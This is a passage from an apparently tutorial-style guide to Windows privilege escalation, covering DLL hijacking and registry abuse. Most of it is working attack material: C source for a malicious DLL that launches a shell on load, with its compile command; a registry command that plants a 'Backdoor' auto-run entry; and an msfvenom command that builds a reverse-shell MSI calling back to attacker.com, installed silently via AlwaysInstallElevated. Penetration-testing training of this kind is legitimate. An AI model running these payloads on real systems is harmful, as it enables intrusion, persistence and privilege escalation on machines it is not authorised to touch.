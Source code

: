 ```bash
# Create malicious DLL with same name in accessible location

# Example DLL hijacking code:
cat > dll_hijack.c << 'EOF'
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("C:\\temp\\shell.exe");
    }
    return TRUE;
}
EOF

# Compile DLL:
x86_64-w64-mingw32-gcc -shared -o malicious.dll dll_hijack.c

# Why service exploitation is effective:
# - Services often run with elevated privileges
# - Many services have misconfigurations
# - Service restart triggers exploitation
# - SYSTEM privileges are common for services
```

#### **Registry Exploitation**

**What Windows registry exploitation involves:** Abusing registry misconfigurations, particularly auto-run entries and service configurations stored in the registry.

**Why registry exploitation matters:** Registry controls Windows behavior and security settings. Misconfigurations can lead to privilege escalation.

```bash
# Registry enumeration for privilege escalation
# Check for auto-run entries
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

# Check for writable auto-run entries
# If current user can modify auto-run entry, replace with malicious executable
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Backdoor" /t REG_SZ /d "C:\temp\shell.exe"

# Service registry keys
reg query HKLM\System\CurrentControlSet\Services
# Look for services with modifiable registry keys

# AlwaysInstallElevated privilege escalation
# Check if both registry keys are set to 1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# If both are set to 1, MSI packages install with SYSTEM privileges
# Create malicious MSI and install
msfvenom -p windows/shell_reverse_tcp LHOST=attacker.com LPORT=4444 -f msi -o shell.msi
msiexec /quiet /qn /i shell.msi

# Registry permission enumeration
# Check registry key permissions
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
# Look for weak permissions on critical registry keys

# Why registry exploitation is important:
```